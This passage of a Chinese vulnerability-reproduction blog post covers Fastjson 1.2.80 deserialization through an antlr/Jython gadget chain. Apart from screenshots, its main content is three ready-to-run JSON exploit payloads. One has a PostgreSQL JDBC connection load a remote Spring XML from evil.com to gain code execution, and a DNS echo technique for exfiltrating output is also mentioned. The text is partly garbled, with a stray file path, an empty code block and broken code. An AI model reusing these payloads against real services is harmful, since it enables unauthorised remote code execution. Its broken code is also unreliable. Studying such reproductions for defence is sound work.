 ```java
```

3. 创建一个文件供读取

![image-20220903191945334](https://gitee.com/shine05/myblog-gallery/raw/master/img/image-20220903191945334.png)

4. RCE读取文件结果

![image-20220903191853822](https://gitee.com/shine05/myblog-gallery/raw/master/img/image-20220903191853822.png)

5. 回显

   可以使用如下的dns回显的方式

   ![image-20220903224432748](https://gitee.com/shine05/myblog-gallery/raw/master/img/image-20220903224432748.png)

## 6. 漏洞复现之--antlr

1. 漏洞调用过程

![image-20220903222355171](https://gitee.com/shine05/myblog-gallery/raw/master/img/image-20220903222355171.png)



![image-20220903223416251](https://gitee.com/shine05/myblog-gallery/raw/master/img/image-20220903223416251.png)

![image-20220903231304751](https://gitee.com/shine05/myblog-gallery/raw/master/img/image-20220903231304751.png)

2. 可用的poc

   一次执行如下的poc

   ```java
      String poc1 =" { \n" +
                   "\t\"@type\":\"java.lang.Exception\",\n" +
                   "    \"@type\":\"org.python.antlr.ParseException\"\n" +
                   "}";
       }
       String poc2 = " { \n" +
               "\t\"@type\":\"java.util.Locale\",\n" +
               "    \"val\":\n" +
               "\t{\"@type\":\"com.alibaba.fastjson.JSONObject\",\n" +
               "\t {\"@type\":\"java.lang.Sting\"\"@type\":\"org.python.antlr.ParseException\",\"type\":\"{\\\"@type\\\":\\\"com.ziclix.python.sql.PyConnection\\\",\\\"connection\\\":{\\\"@type\\\\\\\":\\\"org.postgresql.jdbc.PgConnection\"}}\"}\n" +
               "\t }\n" +
               "}";
      String poc3 = "{\n" +
               "\t\"@type\":\"org.postgresql.jdbc.PgConnection\",\n" +
               "\t\"hostSpecs\":[{\"host\":\"jdbc_ip\",\"port\":jdbc_port}],\n" +
               "\t\"user\":\"user\",\n" +
               "\t\"database\":\"testdb\",\n" +
               "\t\"info\":{\"socketFactory\":\"org.springframework.context.support.ClassPathXmlApplicationContext\",\"socketFactoryArg\":\"http://evil.com/evil.xml\"},\n" +
               "\t\"url\":\"\"\n" +
               "}";
   
   ```

   `evil.xml` 需要替换成上图的形式。

   ## 参考

   1、https://hosch3n.github.io/2022/09/01/Fastjson1-2-80%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/

   2、参考代码路径：https://github.com/Lonely-night/fastjsonVul